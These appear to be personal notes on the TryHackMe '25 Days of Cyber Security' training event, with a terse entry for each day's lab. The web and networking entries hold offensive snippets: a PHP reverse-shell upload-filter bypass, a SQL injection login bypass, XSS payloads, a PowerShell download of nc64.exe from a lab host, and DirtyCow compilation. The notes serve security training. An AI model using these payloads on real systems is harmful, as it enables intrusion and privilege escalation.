 ```yaml
---
title: (N)(THM)25 Days of Cyber Security
published: true
---
```


### [Day 1] Web Exploitation A Christmas Crisis

Web/HTTP(S)/Cookies

Cookies encodede -> cyberchef

### [Day 2] Web Exploitation The Elf Strikes Back!

File upload bypass filter
php rev shell => only pic allowed -> file.jpg.php

file | accepted file format | execuable
root nc -lvnp port

### [Day 3] Web Exploitation Christmas Chaos

burpsuite credentials testing

one thing -> sniper
more -> cluster bomb

### [Day 4] Web Exploitation Santa's watching

fuzzing with wfuzz or gobuster

`sudo wfuzz -c -z file,/home/kali/Documents/thm/25_days_of_cyber_security/day4/wordlist.txt -u http://10.10.182.221/api/site-log.php?date=FUZZ `

`wfuzz -c -z file,big.txt -d "breed=FUZZ" -u http://shibes.xyz/api.php`

### [Day 5] Web Exploitation Someone stole Santa's gift list!

SQL injection
user : asdf'
pwd or 1=1 --

### [Day 6] Web Exploitation Be careful with what you wish on a Christmas night

OWASP ZAP automate XSS scan

```
<img src='LINK' onmouseover="alert('xss')">
```

```
> <script> evilcode() </script>
```

`10.10.100.27/reflected?keyword=<script>alert(1)</script>`

### [Day 7] Networking The Grinch Really Did Steal Christmas

wireshark

`filter http.request.method==GET`

### [Day 8] Networking What's Under the Christmas Tree?

nmap

### [Day 9] Networking Anyone can be Santa!

ftp anonymous login allowed -> able to found \*.sh file that we get and put we able to add reverse shell

### [Day 10] Networking Don't be sElfish!

Samba discover enum4linux -> know username and shares try login with ->
possible weak password

### [Day 11] - The Rogue Gnome: Prelude

```shell
python3 -m http.server 8080
```

[GTFObins](https://gtfobins.github.io/)

### [Day 12] Networking Ready, set, elf.

Windows PrivEsc:

```powershell
Invoke-WebRequest "http://10.9.158.252:9999/nc64.exe" -OutFile "nc64.exe"
```

- powershell
- WinPeas
- powerup.ps1

### [Day 13] Networking Coal for Christmas

DirtyCow

```shell
gcc -pthread dirty.c -o dirty -lcrypt
```

### [Day 14] OSINT Where's Rudolph?

OSINT

### [Day 15] Scripting There's a Python in my stocking!

python scripting

### [Day 16] Scripting Help! Where is Santa?

python api endpoint fuzzing

### [Day 17] Reverse Engineering ReverseELFneering

[radare2](https://github.com/radareorg/radare2)

### [Day 18] Reverse Engineering The Bits of Christmas

ILSpy

### [Day 19] Special by Tib3rius The Naughty or Nice List

Server-Side Request Forgery

### [Day 20] Blue Teaming PowershELlF to the rescue

powershell

### [Day 21] Blue Teaming Time for some ELForensics

powershell

### [Day 22] Blue Teaming Elf McEager becomes CyberElf

cyberchef

### [Day 23] Blue Teaming The Grinch strikes again!

windows

### [Day 24] Special by DarkStar The Trial Before Christmas
